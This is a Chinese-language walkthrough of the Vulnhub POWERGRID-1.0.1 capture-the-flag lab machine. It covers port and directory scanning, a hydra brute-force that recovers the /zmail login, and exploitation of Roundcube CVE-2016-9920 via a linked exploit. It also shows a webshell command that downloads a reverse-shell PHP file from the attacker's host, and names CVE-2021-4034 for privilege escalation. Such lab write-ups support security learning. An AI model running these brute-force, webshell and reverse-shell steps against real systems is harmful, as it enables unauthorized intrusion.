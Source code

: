 ```yaml
---

title: Vulnhub	485	POWERGRID-1.0.1

---
```

考点：hydra,CVE
槽点：靶机三小时关闭，导入虚拟机后应及时快照。因为字典增大，三个小时内根本无法爆破成功。

靶机链接：<https://www.vulnhub.com/entry/powergrid-101,485/>

## 环境配置

| 名称            | IP        |
| --------------- | --------- |
| Kali Linux      | 10.0.2.15 |
| POWERGRID-1.0.1 | 10.0.2.28 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.28
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: PowerGrid - Turning your lights off unless you pay.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: STARTTLS listed IMAP4rev1 LOGINDISABLEDA0001 more have Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 listed IMAP4rev1 have more Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
```

### WEB测试

```bash
$ gobuster dir --url http://10.0.2.28 -w /usr/share/wordlists/dirb/big.txt -x .php
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/images               (Status: 301) [Size: 307] [--> http://10.0.2.28/images/]
/index.php            (Status: 200) [Size: 3644]                              
/server-status        (Status: 403) [Size: 274]                               
/zmail                (Status: 401) [Size: 456]                  
```

访问首页获得用户名三个，本地保存至文件`user`

![1](https://static.iihack.com/vulnhub/485/1.jpg)



访问zmail发现需要http认证

![2](https://static.iihack.com/vulnhub/485/2.jpg)

上hydra爆破

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.28 http-get /zmail 
```

获得用户名密码

用户 `p48`

密码 `electrico`

### 漏洞发现

再次访问

![4](https://static.iihack.com/vulnhub/485/4.jpg)

登录成功

![5](https://static.iihack.com/vulnhub/485/5.jpg)



对照<https://github.com/t0kx/exploit-CVE-2016-9920> 进行利用

![6](https://static.iihack.com/vulnhub/485/6.jpg)

## 获得权限

获得webshell，下载反弹shell

http://10.0.2.28/zmail/backdoor.php?cmd=wget http://10.0.2.24/reverse/r444.php 

访问http://10.0.2.28/zmail/r444.php后获得反弹shell

![7](https://static.iihack.com/vulnhub/485/7.jpg)



## 提权

使用CVE-2021-4034提权

![8](https://static.iihack.com/vulnhub/485/8.jpg)
